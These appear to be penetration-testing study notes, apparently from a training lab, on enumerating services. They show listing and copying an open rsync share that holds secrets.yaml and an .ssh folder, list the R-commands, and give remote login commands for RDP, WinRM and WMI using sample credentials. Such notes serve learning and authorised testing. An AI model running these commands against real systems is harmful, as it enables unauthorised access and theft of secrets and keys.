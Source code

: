#### Enumerating an Open Share
```shell
rsync -av --list-only rsync://127.0.0.1/dev

receiving incremental file list
drwxr-xr-x             48 2022/09/19 09:43:10 .
-rw-r--r--              0 2022/09/19 09:34:50 build.sh
-rw-r--r--              0 2022/09/19 09:36:02 secrets.yaml
drwx------             54 2022/09/19 09:43:10 .ssh

sent 25 bytes  received 221 bytes  492.00 bytes/sec
total size is 0  speedup is 0.00
```

From here we can pull the files by syncing all files to our attack box .
```shell
rsync -av rsync://127.0.0.1/dev
```
If rsync using ssh we could modify our command, if none standard port is used for ssh, <a href="https://phoenixnap.com/kb/how-to-rsync-over-ssh" > Syntax</a> .
```shell 
-e "ssh -p2222"
```

------------------

### #R-commands 

-   rcp (`remote copy`)
-   rexec (`remote execution`)
-   rlogin (`remote login`)
-   rsh (`remote shell`)
-   rstat
-   ruptime
-   rwho (`remote who`)
config 
```shell
 /etc/hosts.equiv
```


----------

### #RDP

```shell
rdp-sec-check.pl => https://github.com/CiscoCXSecurity/rdp-sec-check.git 
```

```shell
xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248
```

### #WINRM

```shell
evil-winrm -i 10.129.201.248 -u Cry0l1t3 -p P455w0rD!
```

### #WMI

```shell
 /usr/share/doc/python3-impacket/examples/wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"
```
